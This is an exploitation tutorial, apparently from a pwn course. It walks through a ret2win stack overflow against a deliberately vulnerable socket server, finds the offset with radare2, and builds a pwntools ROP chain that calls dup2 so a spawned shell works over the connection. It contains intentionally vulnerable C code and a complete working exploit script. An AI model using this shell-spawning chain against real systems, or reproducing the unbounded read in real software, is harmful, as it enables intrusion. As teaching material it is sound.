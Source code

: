 ```yaml
---
description: Duplicating the Descriptors
---
```


# Exploit

## Source

I'll include `source.c`, but most of it is socket programming derived from [here](https://www.cs.cmu.edu/afs/cs/academic/class/15213-f99/www/class26/tcpserver.c). The two relevent functions - `vuln()` and `win()` - I'll list below.

{% file src="../../../.gitbook/assets/sockets.zip" caption="Sockets and File Descriptors" %}

```c
void vuln(int childfd) {
    char buffer[30];

    read(childfd, buffer, 500);
    write(childfd, "Thanks!", 8);
}

void win() {
    system("/bin/sh");
}
```

Quite literally an easy [ret2win](../ret2win.md). 

## Exploitation

Start the binary with `./vuln 9001`.

Basic setup, except it's a remote process:

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = remote('localhost', 9001)
```

### Testing Offset

I pass in a basic [De Bruijn](../de-bruijn-sequences.md) pattern and pause directly before:

```python
payload = b'AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAAyAAzAA1AA2AA3AA4AA5AA6AA7AA8AA9AA0ABBABCABDABEABFA'

pause()
p.sendline(payload)
```

Once the `pause()` is reached, I hook on with radare2 and set a breakpoint at the `ret`.

```text
$ r2 -d -A $(pidof vuln)

[0x7f741033bdee]> pdf @ sym.vuln
[...]
└           0x0040126b      c3             ret

[0x7f741033bdee]> db 0x0040126b
[0x7f741033bdee]> dc
hit breakpoint at: 40126b

[0x0040126b]> pxq @ rsp
0x7ffd323ee6f8  0x41415041414f4141  0x4153414152414151   AAOAAPAAQAARAASA
[...]

[0x0040126b]> wopO 0x41415041414f4141
40
```

Ok, so the offset is `40`.

### Generate Exploit

Should be fairly simple, right?

```python
payload = flat(
    'A' * 40,
    elf.sym['win']
)

p.sendline(payload)
p.interactive()
```

What the hell?

![](../../../.gitbook/assets/image%20%2849%29.png)

But if we look on the server itself:

![](../../../.gitbook/assets/image%20%2848%29.png)

A shell was popped there! This is the [file descriptor issue](./) we talked about before.

So we have a shell, but no way to control it. Time to use `dup2`.

{% hint style="info" %}
I've simplified this challenge a lot by including a call to `dup2()` within the vulnerable binary, but normally you would leak libc via the [GOT](../aslr/ret2plt-aslr-bypass.md) and then use libc's `dup2()` rather than the PLT; this walkthrough is about the basics, so I kept it as simple as possible.
{% endhint %}

### Duplicating File Descriptors

As we know, we need to call `dup2(newfd, oldfd)`. `newfd` will be `4` \(our connection fd\) and `oldfd` will be `0` and `1` \(we need to call it twice to redirect both`stdin` and `stdout`\). Knowing what you do about [calling conventions](../return-oriented-programming/exploiting-calling-conventions.md), have a go at doing this and then caling `win()`. The answer is below.

### Using dup2\(\)

Since we need two parameters, we'll need to find a gadget for RDI and RSI. I'll use `ROPgadget` to find these.

```text
$ ROPgadget --binary vuln | grep "pop rdi"
0x000000000040150b : pop rdi ; ret

$ ROPgadget --binary vuln | grep "pop rsi"
0x0000000000401509 : pop rsi ; pop r15 ; ret
```

Plonk these values into the script.

```python
POP_RDI = 0x40150b 
POP_RSI_R15 = 0x401509 
```

Now to get all the calls to `dup2()`.

```python
payload = flat(
    'A' * 40,

    POP_RDI,
    4,                  # newfd
    POP_RSI_R15,
    0,                  # oldfd -> stdin
    0,                  # junk r15
    elf.plt['dup2'],

    POP_RDI,
    4,                  # newfd
    POP_RSI_R15,
    1,                  # oldfd -> stdout
    0,                  # junk r15
    elf.plt['dup2'],

    elf.sym['win']
)

p.sendline(payload)
p.recvuntil('Thanks!\x00')
p.interactive()
```

And wehey - the file descriptors were successfully duplicated!

![](../../../.gitbook/assets/image%20%2847%29.png)

## Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = remote('localhost', 9001)

POP_RDI = 0x40150b 
POP_RSI_R15 = 0x401509 

payload = flat(
    'A' * 40,

    POP_RDI,
    4,                  # newfd
    POP_RSI_R15,
    0,                  # oldfd -> stdin
    0,                  # junk r15
    elf.plt['dup2'],

    POP_RDI,
    4,                  # newfd
    POP_RSI_R15,
    1,                  # oldfd -> stdout
    0,                  # junk r15
    elf.plt['dup2'],

    elf.sym['win']
)

p.sendline(payload)
p.recvuntil('Thanks!\x00')
p.interactive()
```

## Pwntools' ROP

These kinds of chains are where pwntools' ROP capabilities really come into their own:

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = remote('localhost', 9001)

rop = ROP(elf)
rop.raw('A' * 40)
rop.dup2(4, 0)
rop.dup2(4, 1)
rop.win()

p.sendline(rop.chain())
p.recvuntil('Thanks!\x00')
p.interactive()
```

Works perfectly!

